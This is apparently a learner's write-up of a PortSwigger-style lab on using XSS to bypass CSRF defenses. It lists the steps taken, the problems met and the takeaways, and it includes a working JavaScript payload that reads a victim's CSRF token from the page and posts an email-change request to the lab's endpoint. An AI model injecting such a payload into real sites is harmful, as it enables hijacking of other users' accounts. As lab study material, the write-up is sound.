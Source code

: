 # LAB: Exploiting XSS to bypass CSRF defenses

## Objective:

Explore the forms on the website to find csrf token to exploit using XSS to update emails of other users to your choice

## Key Concepts:

- CSRF tokens
- Generate custom form data
- bypass CSRF tokens using XSS

## Steps Taken:

1. Login with given credentials
2. Create an email update request to find the endpoint to update email of users.
3. Find forms in the application.
4. View Page source to find any hidden input field or fields with csrf token attributes.
5. Find a way to get the value of csrf attribute using document object.
6. Prepare a script to create custom form data and then make an update email request with victim's csrf token.

## Payloads Used:

document.addEventListener("DOMContentLoaded", () => {
let csrf = document.getElementsByName("csrf")[0].value;

let form = new FormData();

form.append("csrf", csrf);
form.append("email", "gunpark@gmail.com");

fetch(
"https://0a5c005604a15db38025171d00070071.web-security-academy.net/my-account/change-email",
{
method: "POST",
mode: "no-cors",
body: form,
}
);
});

## Issues Encountered:

- Faced issue to fetch value of csrf token using dom manipulation.
- Didn't knew I had to create a formData object to replicate real form.
- Payload was not working when I directly made the API call.

## Solutions/Workarounds:

- Inspected the target application, focused on each step at a time to expand the result of each step and then finally found the csrf attribute value.
- Saw a follow-up video and came to know about that we can create form data using the formData class object.
- Because, my script was dependent on first fetching the value from DOM, I had to wait till the DOM is loaded fully, so for that I had to use DOMContentLoaded eventlistener.

## Takeaways:

- CSRF tokens are just random strings provided in response from server to protect unwillingly made XSS driven actions.
- When the script is dependent on the DOM manipulation, make sure to wait until DOM is fully loaded
